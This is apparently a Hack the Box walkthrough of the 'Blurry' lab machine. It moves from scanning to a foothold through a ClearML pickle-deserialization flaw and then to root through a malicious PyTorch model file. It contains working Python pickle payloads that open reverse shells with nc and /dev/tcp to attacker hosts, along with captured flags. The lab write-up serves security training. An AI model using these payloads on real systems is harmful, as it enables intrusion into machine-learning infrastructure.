 ```yaml
---
title: Blurry - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blurry.png
---
```

---
title: 2024-10-12-Blurry - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Blurry.png
---
### Scan
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sVC -p- --open 10.10.11.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 08:57 EDT
Nmap scan report for 10.10.11.19
Host is up (0.12s latency).
Not shown: 64850 closed tcp ports (reset), 683 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.26 seconds

```
### Enum
We get a redirect, so lets update our `/etc/hosts`
We brute subdomains and web directories, yielding this:![Image](/assets/Screenshot 2024-10-09 at 1.09.59 PM.png)
Also this:![Image](/assets/Screenshot 2024-10-09 at 1.33.09 PM.png)
Add everything to `/etc/hosts`
Visiting the link, we get a portal. Creating a user gives us access. ClearML is AI software. Rooting around tells us 1.13.1
CVE-2024-24591 ![Image](/assets/Screenshot 2024-10-09 at 1.15.38 PM.png)
Great explanation here: https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
We'll need to install clearml with `pip install clearml`
Then, for configuration purposes, create new credentials on the site via settings, and paste into the terminal when prompted.![Image](/assets/Screenshot 2024-10-09 at 1.34.13 PM.png)
Now, we can move on to the python script in order to plant a malicious files on the user via the poisoned dataset with dir traversal
Code meandering we stumble on 'Black Swan', and we can see that it is a script tasked with processing JSON artifacts. We can abuse this functionality by uploading our pickle file and passing it through this function for arbitrary code execution.
```
import pickle  
import os  
from clearml import Task, Logger  
  
  
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])  
  
  
  
class MaliciousCode:  
    def __reduce__(self):  
  
        cmd = (  
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker-ip attacker-port > /tmp/f"  
        )  
        return (os.system, (cmd,))  
  
  
malicious_object = MaliciousCode()  
pickle_filename = 'malicious_pickle.pkl'  
with open(pickle_filename, 'wb') as f:  
    pickle.dump(malicious_object, f)  
  
print("Malicious pickle file with reverse shell created.")  
  
  
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")  
  
print("Malicious pickle file uploaded as artifact.")
```
Run it ![Image](/assets/Screenshot 2024-10-09 at 1.54.22 PM.png)
Shell as jippity! Stabilize shell
sudo -l ![Image](/assets/Screenshot 2024-10-09 at 1.56.37 PM.png)
we'll play with that in a second. First, grab user flag, and notice ssh private key!
user:3f27bf4798adad24993c80ea10ec74d9
create file and chmod 400 to ssh back in
`vim rsa.key` paste. Make sure to include begin and end part
`chmod 400 rsa.key`
`ssh -i rsa.key jippity@10.10.11.19`
![Image](/assets/Screenshot 2024-10-09 at 2.03.39 PM.png)
### Priv esc
remember the nopasswd? here we go. 
Lets create a py script that drops a malicious pth file so taht we can eecute
`vim evilpath.py` and use
```
import torch
import os

class Payload:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'",))

evil = Payload()
torch.save(evil, 'evil.pth')
```

then to run, `python3 evilpath.py` followed by `cp evil.pth /models && sudo /usr/bin/evaluate_model /models/evil.pth`. It should hang

Your listener set at 9001 should catch the root shell!

Root:45ab0078950cb8dbd2d3ea188f62f389

GET INTO THE WEEDS WRITING THIS MF. alal of em for that matter
